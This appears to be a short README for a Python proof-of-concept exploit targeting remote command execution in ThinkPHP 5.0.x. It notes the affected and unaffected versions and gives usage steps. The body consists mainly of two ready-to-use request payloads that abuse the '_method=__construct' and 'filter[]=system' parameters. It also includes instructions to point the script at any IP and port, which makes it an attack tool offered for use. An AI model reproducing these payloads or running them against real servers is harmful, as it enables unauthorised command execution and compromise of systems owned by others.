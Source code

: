     author:jeffery.yu
    script is maded by python3
    blog: https://www.yu2lulu.xyz
    descibe: thinkphp5.x远程命令执行
        受影响版本：ThinkPHP 5.0.x
        不受影响版本：ThinkPHP 5.0.24


# 使用方法
### 1.修改代码
    if __name__=="__main__":
    exp1="_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=env"
    exp2="s=env&_method=__construct&method=&filter[]=system"
    exp={
        '/public/index.php?s=captcha':exp1,
        '/public/index.php?s=index/index/index':exp2
    }
    Poc("http://10.211.55.6:12306",exp)  #修改为你的ip和端口即可
    
### 2.python tp5.x远程命令执行.py 
